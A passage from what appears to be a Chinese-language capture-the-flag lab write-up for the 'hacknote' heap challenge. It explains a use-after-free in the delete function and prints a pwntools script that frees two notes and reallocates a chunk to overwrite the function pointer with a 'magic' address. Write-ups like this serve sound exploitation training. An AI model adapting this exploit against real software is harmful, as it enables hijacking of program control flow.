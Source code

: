 note的数据结构如下:  
  
```c  
struct note {  
	void (*printnote)();  
	char *content ;  
};  
```  
  
在delete功能中存在UAF，可以覆盖printnote函数的指针。  
  
```python  
#coding=utf-8  
  
from pwn import *  
  
context.log_level = "debug"  
context.terminal = ["tmux", "split", "-h"]  
  
r = process("./hacknote")  
  
def addNote(size, content):  
	r.recvuntil(":")  
	r.sendline("1")  
	r.recvuntil(":")  
	r.sendline(str(size))  
	r.recvuntil(":")  
	r.sendline(content)  
  
def deleteNote(idx):  
	r.recvuntil(":")  
	r.sendline("2")  
	r.recvuntil(":")  
	r.sendline(str(idx))  
  
def printNote(idx):  
	r.recvuntil(":")  
	r.sendline("3")  
	r.recvuntil(":")  
	r.sendline(str(idx))  
  
magic = 0x8048986  
addNote(32, "aa")  
addNote(32, "aa")  
  
deleteNote(0)  
deleteNote(1)  
addNote(8, p32(magic) + "aaa")  
  
r.interactive()  
```  
  
## lab11  
  